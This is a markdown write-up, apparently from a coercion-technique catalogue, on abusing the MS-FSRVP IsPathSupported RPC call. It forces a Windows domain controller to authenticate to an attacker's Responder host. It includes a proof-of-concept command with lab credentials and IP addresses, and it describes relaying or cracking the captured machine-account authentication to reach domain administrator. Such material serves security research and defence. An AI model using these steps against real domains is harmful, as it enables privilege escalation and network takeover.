

# MS-FSRVP - Remote call to IsPathSupported (opnum 8)

## Summary

 - **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

 - **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

 - **Protocol version**: 1.0

 - **Function name**: [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb)

 - **Function operation number**: `8`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\FssagentRpc` and bind to (uuid `a8e0653c-2744-4389-a61d-7373df8b2292`, version `1.0`) in order to perform calls to RPC functions of the `MS-FSRVP` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\FssagentRpc`. This pipe is connected to the [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. It will then call the remote [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
IsPathShadowCopied('\\192.168.2.51\NETLOGON\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```



This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:


After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD IsPathSupported(
    [in] handle_t hBinding,
    [in] [string] LPWSTR ShareName,
    [out] BOOL* SupportedByThisProvider,
    [out] [string] LPWSTR* OwnerMachineName
);
```

 - **hBinding**:  An RPC binding handle (as defined in [C706]).


 - **ShareName**: The full path of the share in UNC format.


 - **SupportedByThisProvider**:  A Boolean, when set to TRUE, that indicates that shadow copies of this share are supported by the server.


 - **OwnerMachineName**:  The name of the server machine to which the client MUST connect to create shadow copies of the specified ShareName. 

## References

 - Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b


 - Documentation of function `IsPathSupported`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb

 - This call was pointed out by [@topotam77](https://twitter.com/topotam77/) on Dec 28, 2021: https://twitter.com/topotam77/status/1475701014204461056